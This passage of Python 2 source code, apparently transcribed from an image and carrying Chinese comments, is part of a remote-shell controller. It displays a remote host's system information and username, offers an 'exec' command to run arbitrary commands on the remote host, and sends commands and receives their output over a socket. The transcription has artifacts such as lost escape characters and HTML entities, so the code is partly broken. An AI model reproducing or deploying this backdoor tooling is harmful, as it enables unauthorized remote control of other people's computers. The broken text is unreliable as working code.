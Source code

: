 ```
                print script_colors("g", "Operating System: ") + "%s" % (script_colors("b", sysinfo[0]))
                print script_colors("g", "Computer Name: ") + "%s" % (script_colors("b", sysinfo[1]))
                print script_colors("g", "Username: ") + "%s" % (script_colors("b", sysinfo[6]))
                print script_colors("g", "Release Version: ") + "%s" % (script_colors("b", sysinfo[2]))
                print script_colors("g", "System Version: ") + "%s" % (script_colors("b", sysinfo[3]))
                print script_colors("g", "Machine Architecture: ") + "%s" % (script_colors("b", sysinfo[4]))
            elif sysinfo[0] == "Windows":
                print script_colors("g", "Operating System: ") + "%s" % (script_colors("b", sysinfo[0]))
                print script_colors("g", "Computer Name: ") + "%s" % (script_colors("b", sysinfo[1]))
                print script_colors("g", "Username: ") + "%s" % (script_colors("b", sysinfo[7]))
                print script_colors("g", "Release Version: ") + "%s" % (script_colors("b", sysinfo[2]))
                print script_colors("g", "System Version: ") + "%s" % (script_colors("b", sysinfo[3]))
                print script_colors("g", "Machine Architecture: ") + "%s" % (script_colors("b", sysinfo[4]))

        elif command == "exit()":
            connection.send("exit()")
            print script_colors("b"," [+] ") + script_colors("g","Shell Going Down")
            break
        else:
            print script_colors("red","[!] Unknown Command")

# 帮助函数
def help():
    help_list = `{``}`
    help_list["sysinfo"] = "Display Remote System Information"
    help_list["exec"] = "Execute Argument Ad Command On Remete Host"
    help_list["cls"] = "Clears The Terminal"
    help_list["help"] = "Prints this help message"

    return_str = script_colors("g", "n Command ") + " . "
    return_str += script_colors("b", " Descriptionn %sn" % (script_colors("gray", "-" * 50)))


    for x in sorted(help_list):
        dec = help_list[x]
        return_str += " " + script_colors("g", x) + " - " + script_colors("b", dec + "n")

    return return_str.rstrip("n")

# 发送数据
def send_data(connection,data):
    try:
        connection.send(data)
    except socket.error as e:
        print script_colors("red","[ - ]") + "Unable To Send Data"
        return

    result = connection.recv(2048)
    total_size = long(result[:16])
    result = result[16:]

    while total_size &gt; len(result):
        data = connection.recv(2048)
```